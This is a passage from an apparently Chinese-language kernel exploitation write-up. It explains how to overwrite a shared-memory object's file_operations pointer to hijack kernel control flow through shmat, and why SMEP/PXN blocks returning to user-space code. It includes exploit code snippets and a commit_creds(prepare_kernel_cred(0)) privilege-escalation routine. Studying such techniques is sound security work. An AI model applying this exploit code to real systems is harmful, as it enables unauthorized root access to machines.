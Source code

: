 ![Alt text](http://drops.javaweb.org/uploads/images/bd58165b7ab2d3c837e4af682973a249df26feed.jpg)

最开始的计划，是覆盖shmid_kernel结构的shmid_file指针（shmid_kernel+0x6c），但是现在发现可以直接覆盖shmid_file的fop（shmid_file+0x14），这是指向其file_operations的指针。我们只要把这个指针覆盖，就能伪造file_operations，于是伪造一个file_operations，在偏移0x40处，指定0x41414141。其余的内容，由于我们可以通过read读取堆内容，所以write的时候，直接复制过去，改别的。 但是如果没有read，我们也可以自己伪造一个shmid_kernel，当然肯定会麻烦一些。因为有一些检查是要绕过的。

```
read(fd[2],readbuf,oversize); //由于llseek的限制,fd [0,1,2]做一个区分
memcpy(buf,readbuf,oversize);
map = mmap((void *)0x5a000000,0x1000,PROT_WRITE|PROT_READ | PROT_EXEC, MAP_SHARED|MAP_ANONYMOUS|MAP_FIXED, -1, 0);
memcpy(map,41,0x100);
struct file **shm_file;
shm_file = (struct file **)(buf+0x194);
*shm_file = (void *)0x5a000000;  

//fack_fop == 0x5a000000;
//fack_fop_mmap == 0x41414141;

write(fd[0],buf,oversize);
ret = shmat(shmid,NULL,0);

```

那么，调用shmat的时候，最终会调用:  
shmid_kernel->shm_file->fop->mmap(...)。这个时候，我们就能得到内核的控制流。

![Alt text](http://drops.javaweb.org/uploads/images/c973ec176c153604d8b7e82625459919fffa45f1.jpg)

0x04 SMEP
=====

得到控制流后，最开始我是这么想的：

**将控制流转移到用户态的代码里来，进行提权**，代码可以是这样子：

```
int __attribute__((regparm(3))) 
kernel_code(struct file *file, void *vma)
{
    commit_creds(prepare_kernel_cred(0));
    return -1;
}

```

但是，这样只能针对没有开启**SMEP**(Supervisor Mode Execution Protection Enable)的情况。

什么是SMEP？简单来说，就是禁止内核执行用户控件的代码。它存在于CR4寄存器的第20 bit。

![Alt text](http://drops.javaweb.org/uploads/images/d3740a55cc9e53ccd70a08908d99847319393ed8.jpg)

在安卓上，也叫PXN。因为传统的内核提权漏洞利用，得到控制流之后，直接跳转到用户空间执行提权代码，实在是太轻松，所以就加了这么一个缓解机制。

由于系统开了SMEP，这样就只能在内核找ROP来拼凑提权代码了。
